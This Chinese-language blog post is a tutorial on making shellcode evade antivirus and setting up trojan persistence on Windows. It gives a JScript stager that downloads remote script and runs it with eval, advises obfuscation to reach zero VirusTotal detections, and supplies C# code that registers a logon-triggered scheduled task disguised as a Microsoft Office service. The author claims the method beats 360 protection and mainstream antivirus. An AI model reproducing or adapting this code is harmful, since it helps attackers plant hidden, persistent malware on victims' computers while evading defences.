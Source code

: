 +++
title = "免杀shellcode并绕过杀毒添加自启动"
author = "Hzllaga"
date = 2020-02-17
categories = [ "原创" ]
tags = ["免杀","shellcode"]
+++
首先得处理好shellcode，尽量把添加自启动的操作独立成一个Loader，可以避免杀毒软件检测到特征并拦截，这边选择的是利用Javascript来处理Shellcode，而添加自启动的操作由C#来控制，并成功实现了绕过360核晶防护添加计划任务完成木马自启动。<!--more--> 
Shellcode的部分用CACTUSTORCH完成，链接：[CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)

也可以自己C#编译一个再用DotNetToJScript转Javascript语言，教程：[免杀 MSF Windows Payload 的方法与实践](../免杀-msf-windows-payload-的方法与实践/)

处理完的js脚本，推荐使用sojson的混淆代码，可以实现virustotal的57引擎0报毒，链接：[Js加密](https://www.sojson.com/jsobfuscator.html)，我一个18年处理的msf shellcode到现在还是0报毒。

因为混淆了，所以体积自然会变很大，这边提供一个网络加载的方式，可以把体积缩小到4kb：
{{< highlight JavaScript >}}
var xml=new ActiveXObject("Microsoft.XMLHTTP");
xml.open("GET","http://127.0.0.1/ccc.js",false);
xml.send();
var aaa=xml.responseText;
eval(aaa);
{{< /highlight >}}
因为是WSH模式的，当然还能用`WScript.Arguments.Item(0);`的方式来传递代码，可以直接注入一个加密的代码，然后在写一段解密的代码会更隐蔽。

再来谈谈添加自启动，因为程序现在不需要处理上面那些行为，所以杀毒不会拦截，代码：
{{< highlight csharp>}}
TaskSchedulerClass scheduler = new TaskSchedulerClass();
//连接
scheduler.Connect(null, null, null, null);
//获取创建任务的目录
ITaskFolder folder = scheduler.GetFolder("\\");
//设置参数
ITaskDefinition task = scheduler.NewTask(0);
task.RegistrationInfo.Author = "Microsoft Office";//创建者
task.RegistrationInfo.Description = "This task monitors the state of your Microsoft Office ClickToRunSvc and sends crash and error logs to Microsoft.";//描述
//设置触发机制（此处是 登陆后）
task.Triggers.Create(_TASK_TRIGGER_TYPE2.TASK_TRIGGER_LOGON);
//设置动作（此处为运行exe程序）
IExecAction action = (IExecAction)task.Actions.Create(_TASK_ACTION_TYPE.TASK_ACTION_EXEC);
action.Path = Path.GetTempPath() + @"\" + file + ".exe";//设置文件目录
task.Settings.ExecutionTimeLimit = "PT0S"; //运行任务时间超时停止任务吗? PTOS 不开启超时
task.Settings.DisallowStartIfOnBatteries = false;//只有在交流电源下才执行
task.Settings.RunOnlyIfIdle = false;//仅当计算机空闲下才执行

IRegisteredTask regTask =
    folder.RegisterTaskDefinition("Office ClickToRun Service Monitor", task,//此处需要设置任务的名称（name）
    (int)_TASK_CREATION.TASK_CREATE, null, //user
    null, // password
    _TASK_LOGON_TYPE.TASK_LOGON_INTERACTIVE_TOKEN,
    "");
IRunningTask runTask = regTask.Run(null);
{{< /highlight >}}
程序添加完自启动，还能顺便把上面网络加载的js脚本释放出来并运行，到发布日期0217能过各种主流杀毒不被查杀并正常上线。![](https://cdn.wtfsec.org/img/20200222165121.png)

相关代码已经发布在Github上，链接：[https://github.com/Hzllaga/JsLoader](https://github.com/Hzllaga/JsLoader)